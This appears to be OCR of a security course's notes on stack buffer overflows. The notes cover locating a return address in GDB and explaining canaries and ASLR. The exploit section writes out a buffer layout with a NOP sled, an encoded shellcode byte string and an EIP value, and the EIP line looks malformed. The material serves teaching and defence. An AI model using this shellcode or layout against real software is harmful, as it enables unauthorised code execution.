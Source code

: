 # Identification of the Return Address

---

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.
#### GDB NOPS

  GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400
```
Buffer  = "\\x55" \* (1040 - 100 - 95 - 4) = 841
NOPs = "\\x90" \* 100
shellcode = "\xdb\xca\xd9\x74\x24\xf4\xbb\x82\xfc\x62\x5f\x5f\x29\xc9\xb1\x12\x31\x5f\x17\x03\x5f\x17\x83\x45\xf8\x80\xaa\x78\xda\xb2\xb6\x29\x9f\x6f\x53\xcf\x96\x71\x13\xa9\x65\xf1\xc7\x6c\xc6\xcd\x2a\x0e\x6f\x4b\x4c\x66\x7a\xa1\xa1\x75\x12\xb7\xbd\x62\xdb\x3e\x5c\x24\x7d\x11\xce\x17\x31\x92\x79\x76\xf8\x15\x2b\x10\x6d\x39\xbf\x88\x19\x6a\x10\x2a\xb3\xfd\x8d\xf8\x10\x77\xb0\x4c\x9d\x4a\xb3"
EIP = "\xff\xff\d7\x38"
# Prevention Techniques and Mechanisms

---

The best protection against buffer overflows is security-conscious programming. Software developers should inform themselves about the relevant pitfalls and strive for deliberately secure programming. Besides, there are security mechanisms that support developers and prevent users from exploiting such vulnerabilities.

These include security mechanisms:

- `Canaries`
- `Address Space Layout Randomization` (`ASLR`)
- `Data Execution Prevention` (`DEP`)

---

## Canaries

The `canaries` are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

---

## Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (`ASLR`) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

---